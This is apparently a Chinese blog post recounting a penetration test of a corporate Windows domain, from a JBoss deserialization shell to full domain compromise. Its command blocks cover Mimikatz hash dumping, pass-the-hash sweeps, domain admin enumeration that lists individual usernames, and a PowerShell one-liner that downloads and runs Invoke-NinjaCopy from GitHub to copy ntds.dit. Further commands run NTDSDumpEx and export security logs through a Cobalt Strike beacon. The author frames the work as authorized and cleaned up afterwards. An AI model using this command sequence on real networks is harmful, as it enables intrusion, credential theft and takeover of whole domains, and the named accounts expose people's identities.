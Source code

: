 ```yaml
---
title: 【域渗透】JBoss引起的内网渗透
date: 2019-05-26 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。
---
```

# 切入点

Jboss的反序列化漏洞，获取到shell，就不多说了，远程部署war。

# 信息收集

```
whoami  --> windows-7p8piq7\administrator
ipconfig --> 192.168.58.231
tasklist --> 360EntClient.exe \ZhuDongFangYu.exe .. (360全家桶)
systeminfo --> Windows Server 2008 R2 Enterprise
```

# 横向拓展

## 前奏

用`CS`生成`powershell`的`exp`就过了。到目标机`cmd`下执行弹回。由于权限较高，

直接`run Mimikatz` 获取到了当前主机用户的ntlm hash。

![img](https://www.yunzhijia.com/microblog/filesvr/5cea3af1ea3b4a292e072f80)

## 方法

使用`Cobalt Strike`的ARP扫描（因为net view使用不了），使得`Targets`有记录。

用比较典型的`hash传递`碰一下看看运气怎么样。

登陆情况如下：

```
192.168.58.1 # 成功
192.168.58.18 # 成功
....
192.168.58.3 # 失败
192.168.58.7 # 失败
....
192.168.58.68 # 成功
192.168.58.21 # 成功
```

![img](https://www.yunzhijia.com/microblog/filesvr/5cea3b182711cd2096ff5116)

这个过程就是不断的进行`hash注入`，不断的`dump密码`，结果就如上图。看`Credentials`里是否存在域管用户账密。
![img](https://www.yunzhijia.com/microblog/filesvr/5cea3ac59b521a11ecb7384f)

## 定位

```
从58.18的机子上发现存在域： 

所属域 -->MERCURY.COM  近1400个域用户...

nltest /dclist:MERCURY.COM #查看域控 （2个)

pdc.mercury.com [PDC]  --> 主dc --> 192.168.58.2
BDC.mercury.com        --> 备dc --> 192.168.58.1
-----------------------------------------------------------------------------

net group "domain admins" /domain  #查看域管理员 （9个)
-----------------------------------------------------------------------------
Administrator            chenfeng                 chudonggen               
dongzhiwei               IT                       lifen                    
qiaopeng                 weiwei                   zhangxuejun 

net group "domain controllers" /domain  #查看域控制器
-----------------------------------------------------------------------------
BDC$                     PDC$
```

![img](https://www.yunzhijia.com/microblog/filesvr/5cea3aa72711cd2096ff4e6f)

同时通过GPP组策略成功解密出域控本地administraor密码：
![img](https://www.yunzhijia.com/microblog/filesvr/5cf13b8ddb5aa6649fc91a2b)

然而发现我已经获取到了dc的账号密码。并在`CS`上上线了，这就意味的此时的域已经沦陷。

## 问题

- vssadmin 无法提取出ntds.dit、在系统中卡死
- ntdsutil 被破坏、无法运行

## 突破方法：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1'); Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\Users\dongzhiwei\Desktop\ntds.dit"
```

这里用powerSploit框架中的Invoke-NinjaCopy,远程复制文件，成功提取到ntds.dit / system.hive

## 提取

参考链接：https://github.com/zcgonvh/NTDSDumpEx

```
ntdsdumpex.exe -d ntds.dit -o hash.txt -s system.hiv
```

![img](https://www.yunzhijia.com/microblog/filesvr/5cea3a81e67d0a23c65bb1e0)

之前给自己挖了个坑，关于如何去获取域用户的登录IP，除了nmap外，可以ping域用户名，然而这是一个非常错误的认知，这种前提是UNC为系统机器名，这种情况少之又少。

参考klion牛的方法：

从目标主控中导出成功登录日志,来定位指定目标机器

```
beacon> shell hostname
beacon> shell wevtutil epl Security c:\windows\logs\risalogs.evtx /q:"*[EventData[Data[@Name='LogonType']='3'] and System[(EventID=4624) and TimeCreated[timediff(@SystemTime) <= 4449183132]]]"
beacon> shell tasklist | findstr "wevtutil.exe"
beacon> shell dir c:\windows\logs\risalogs.evtx
beacon> download c:\windows\logs\risalogs.evtx
beacon> downloads
```

利用 `Log Parser` 日志分析工具,从log中匹配：

```
LogParser.exe -i:EVT -o csv "SELECT TO_UPPERCASE(EXTRACT_TOKEN(Strings,5,'|')) as NAME,TO_UPPERCASE(EXTRACT_TOKEN(Strings,18,'|')) as IP FROM c:\risalogs.evtx" > C:\log.txt

进行去重、替换：

grep -v '\$' log.txt | sort | uniq | egrep -v 'ANONYMOUS LOGON|-|:' > login_succeed.txt
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d348af332f2ca7e75b1ceee)

# 收尾

 从内网中获取了大量主机权限，VPN、核心代码，数据库等，逐进行放弃权限，删除后门，所有操作并未更改，下载，删除等一切损害该公司的行为。
